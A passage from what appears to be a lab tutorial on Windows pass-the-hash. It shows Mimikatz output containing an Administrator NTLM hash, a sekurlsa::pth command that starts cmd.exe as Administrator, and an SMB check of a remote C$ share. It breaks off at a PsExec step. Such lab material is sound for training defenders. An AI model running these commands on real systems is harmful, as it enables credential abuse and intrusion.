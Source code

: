 **Output Interpretation:**

Look for the Administrator account details:

```text
         * Username : Administrator
         * Domain   : WIN10CLIENT
         * NTLM     : af992895db0f2c42a1bc96546e92804a
```

> **Note:** the NTLM hash value; we'll use it in the next step.

---

**Step 2: Perform Pass-the-Hash to Create a New Session**
Use the extracted NTLM hash to create a new session that impersonates the Administrator account.

**Command:**

In the Mimikatz console:

```bash
sekurlsa::pth /user:Administrator /domain:WIN10CLIENT /ntlm:<NTLM_HASH> /run:cmd.exe
```

Example:

```bash
sekurlsa::pth /user:Administrator /domain:WIN10CLIENT /ntlm:af992895db0f2c42a1bc96546e92804a /run:cmd.exe
```

**Replace `<NTLM_HASH>` with the actual hash extracted earlier.**

**Explanation:**

- `sekurlsa::pth`: Initiates a pass-the-hash attack.
- `/user`: The username to impersonate.
- `/domain`: The domain or local machine name.
- `/ntlm`: The NTLM hash of the user's password.
- `/run`: The process to execute under the impersonated account (e.g., `cmd.exe`).

**Result:**

A new command prompt opens with the security context of the Administrator account using the supplied NTLM hash.

**Step 3: Lateral Movement to win10adm**
With the new Administrator session, attempt to access `win10adm` remotely.

**Verification: Using SMB to List Remote Shares:**

```bash
dir \\192.168.56.30\C$
```

**Explanation:**

- Attempts to list the contents of the `C$` administrative share on `win10adm`.

**Using PsExec for a Remote Shell:**
**Prerequisite:** Download PsExec from [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

